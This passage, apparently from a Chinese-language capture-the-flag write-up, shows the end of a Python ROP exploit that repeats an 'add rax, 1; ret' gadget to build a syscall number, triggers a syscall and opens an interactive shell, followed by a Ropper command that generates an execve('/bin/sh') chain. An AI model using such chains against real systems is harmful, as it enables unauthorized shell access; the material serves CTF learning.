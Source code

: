 ```python
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x0000000000474480) # add rax, 1 ; ret
p += struct.pack('<Q', 0x000000000040120c) # syscall
o.sendline(p)
o.interactive()
```

![image-20220316214021047](Self-help_Clown.assets/image-20220316214021047.png)

#### Ropper

ROPgadget搜寻的chain有点太长了, 所以不是很好, 但是Ropper生成的就比较短

命令为

```sh
ropper -f elf --chain "execve cmd=/bin/sh"
```
